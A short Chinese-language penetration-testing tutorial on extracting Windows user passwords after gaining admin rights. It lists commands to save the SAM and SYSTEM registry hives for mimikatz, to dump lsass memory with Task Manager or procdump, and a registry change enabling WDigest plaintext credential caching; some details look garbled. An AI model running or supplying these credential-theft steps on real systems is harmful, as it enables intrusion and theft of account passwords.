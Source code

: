 # 内网渗透之获取用户密码
获取到用户密码需要我们权限是最高权限，普通权限是不行的。两种思路，一种是获取的加密密码，然后将加密的密码拿到cmd5去解密，这种方法解不开就凉凉。另一种方法可获取明文密码。
## 方法一：获取加密的密码
通过注册表导出文件sam.hiv和sys.hiv
#### 命令
`reg save hklm\sam sam.hiv`导出sam文件

`reg save hklm\sys sys.hiv`导出sys文件

#### 在Windows2003版本以上（包含2003）都可以使用此命令，在2003版本中密码以ltml形式存在，其他版本都是以Hash加密


导出之后我们将文件下载，随后通过mimikatz读取文件中内容







## 方法二：获取明文密码
1. 任务管理器导出lsass.exe内存
2. procdump程序lsass内存

###  注意事项：在Windows2012 （包括2012）以上版本无法从lsass。exe内存中窃取明文密码，在Windows2003获取的文件，必须要在同类型的系统中解密，当目标值x86的系统，那么mimikatz也必须是x86的。

## 我们要记录Windows2012的明文密码该如何操作？
需要修改注册表

`reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\ /v UseLogonCredential /t REG_DWORD /d 1`
